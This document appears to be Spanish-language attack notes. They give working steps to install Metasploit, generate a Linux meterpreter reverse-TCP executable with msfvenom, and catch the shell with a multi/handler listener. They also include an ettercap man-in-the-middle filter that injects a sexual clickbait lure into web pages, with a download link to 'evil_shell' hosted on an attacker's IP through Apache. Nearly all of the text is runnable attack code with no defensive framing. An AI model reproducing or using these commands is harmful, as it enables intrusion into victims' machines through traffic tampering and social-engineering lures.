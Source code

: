 - **Instalación**

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall
msfdb init
msfconsole
```



- **Ejecutable reverse TCP**

```shell
# Dentro del msfconsole

/opt/metasploit-framework/bin/msfvenom -l payloads | grep "linux/x64"

msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=(IP_atacante) lport=1234 -f elf -o origen_shell
chmod +x origen_shell
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set lhost (Ip atacante)
set lport 1234
exploit
# Cuando se ejecuta el ./origen_shells en el atacado se abre un nuevo shell, ejecuta
sysinfo
shell
lsof -i -P -n
```



- **Desplegando el meterpreter de metasploit con MITM y un filtro ettercap**

```shell
(creamos archivo , html.filter)
      if (ip.proto == TCP && tcp.dst == 80) {
	if (search(DATA.data, "Accept-Encoding")) {
		replace("Accept-Encoding", "Accept-Nothing!");
	}
	}
	if (ip.proto == TCP && tcp.src == 80) {
		if (search(DATA.data, "<title>")) {
			replace("</title>","</title><MUJER CALIENTE CERCA DE TI><h1>LINDA tiene ¡MUCHAS GANAS!
			de conocerte y ver todo de ti ;), te ha enviado un mensaje ,click aqui para abrirlo<h1><form method="get"
			action="http://10.11.49.98/evil_shell"><button type="submit">"DESCARGAR
			AHORA"</button></form>");
			msg("html injected");
		}
	}
(guardamos)
etterfilter html.filter -o html.ef
(instalamos apache)
apt install apache2
systemctl enable apache2
systemctl start apache2
mv evil_shell /var/www/html/
```
